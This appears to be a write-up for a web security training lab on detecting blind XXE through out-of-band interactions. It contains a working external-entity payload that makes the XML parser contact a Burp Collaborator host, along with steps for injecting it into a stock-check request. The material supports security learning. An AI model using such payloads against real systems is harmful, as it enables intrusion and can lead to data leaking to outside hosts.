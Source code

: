 ### Enunciation

This lab has a "Check stock" feature that parses XML input but does not display the result.

You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.

To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

### Solution

![xxe](../img/xxe_10.png)

![xxe](../img/xxe_11.png)

```
# Burpsuite solution
1. Visit a product page, click "Check stock" and intercept the resulting POST request in [Burp Suite Professional](https://portswigger.net/burp/pro).
2. Insert the following external entity definition in between the XML declaration and the `stockCheck` element. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated:
    
    `<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>`
3. Replace the `productId` number with a reference to the external entity:
    
    `&xxe;`
4. Go to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.
```
